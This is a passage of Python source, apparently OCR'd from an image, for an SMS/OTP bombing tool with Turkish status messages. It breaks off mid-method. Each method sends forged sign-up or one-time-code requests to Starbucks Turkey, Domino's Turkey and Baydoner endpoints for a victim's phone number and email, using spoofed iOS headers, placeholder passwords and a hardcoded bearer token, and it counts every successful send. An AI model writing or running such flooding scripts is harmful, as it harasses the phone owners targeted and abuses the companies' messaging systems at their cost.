 

    #starbucks.com.tr
    def Starbucks(self):
        try:
            url = "https://auth.sbuxtr.com:443/signUp"
            headers = {"Content-Type": "application/json", "Operationchannel": "ios", "Accept": "*/*", "Accept-Encoding": "gzip, deflate, br"}
            json={"allowEmail": True, "allowSms": True, "deviceId": "31", "email": self.mail, "firstName": "Memati", "lastName": "Bas", "password": "31ABC..abc31", "phoneNumber": self.mail, "preferredName": "Memati"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["code"] == 50:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> auth.sbuxtr.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> auth.sbuxtr.com")


    #dominos.com.tr
    def Dominos(self):
        try:
            url = "https://frontend.dominos.com.tr:443/api/customer/sendOtpCode"
            headers = {"Content-Type": "application/json;charset=utf-8", "Accept": "application/json, text/plain, */*", "Authorization": "Bearer eyJhbGciOiJBMTI4S1ciLCJlbmMiOiJBMTI4Q0JDLUhTMjU2IiwidHlwIjoiSldUIn0.ITty2sZk16QOidAMYg4eRqmlBxdJhBhueRLSGgSvcN3wj4IYX11FBA.N3uXdJFQ8IAFTnxGKOotRA.7yf_jrCVfl-MDGJjxjo3M8SxVkatvrPnTBsXC5SBe30x8edSBpn1oQ5cQeHnu7p0ccgUBbfcKlYGVgeOU3sLDxj1yVLE_e2bKGyCGKoIv-1VWKRhOOpT_2NJ-BtqJVVoVnoQsN95B6OLTtJBlqYAFvnq6NiQCpZ4o1OGNhep1TNSHnlUU6CdIIKWwaHIkHl8AL1scgRHF88xiforpBVSAmVVSAUoIv8PLWmp3OWMLrl5jGln0MPAlST0OP9Q964ocXYRfAvMhEwstDTQB64cVuvVgC1D52h48eihVhqNArU6-LGK6VNriCmofXpoDRPbctYs7V4MQdldENTrmVcMVUQtZJD-5Ev1PmcYr858ClLTA7YdJ1C6okphuDasvDufxmXSeUqA50-nghH4M8ofAi6HJlpK_P0x_upqAJ6nvZG2xjmJt4Pz_J5Kx_tZu6eLoUKzZPU3k2kJ4KsqaKRfT4ATTEH0k15OtOVH7po8lNwUVuEFNnEhpaiibBckipJodTMO8AwC4eZkuhjeffmf9A.QLpMS6EUu7YQPZm1xvjuXg", "Device-Info": "Unique-Info: 2BF5C76D-0759-4763-C337-716E8B72D07B Model: iPhone 31 Plus Brand-Info: Apple Build-Number: 7.1.0 SystemVersion: 15.8", "Appversion": "IOS-7.1.0", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "tr-TR,tr;q=0.9", "User-Agent": "Dominos/7.1.0 CFNetwork/1335.0.3.4 Darwin/21.6.0", "Servicetype": "CarryOut", "Locationcode": "undefined"}
            json={"email": self.mail, "isSure": False, "mobilePhone": self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["isSuccess"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> frontend.dominos.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> frontend.dominos.com.tr")


    #baydoner.com
    def Baydoner(self):
        try:
            url = "https://crmmobil.baydoner.com:7004/Api/Customers/AddCustomerTemp"
            headers = {"Content-Type": "application/json", "Accept": "*/*", "Accept-Language": "tr-TR,tr;q=0.9", "Platform": "1", "Accept-Encoding": "gzip, deflate, br", "User-Agent": "BaydonerCossla/163 CFNetwork/1335.0.3.4 Darwin/21.6.0"}
            json={"AppVersion": "1.3.2", "AreaCode": 90, "City": "ADANA", "CityId": 1, "Code": "", "Culture": "tr-TR", "DeviceId": "31s", "DeviceModel": "31", "DeviceToken": "3w1", "Email": self.mail, "GDPRPolicy": False, "Gender": "Erkek", "GenderId": 1, "LoyaltyProgram": False, "merchantID": 5701, "Method": "", "Name": "Memati", "notificationCode": "31", "NotificationToken": "31", "OsSystem": "IOS", "Password": "31Memati31", "PhoneNumber": self.phone, "Platform": 1, "sessionID": "31", "socialId": "", "SocialMethod": "", "Surname": "Bas", "TempId": 942603, "TermsAndConditions": False}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["Control"] == 1: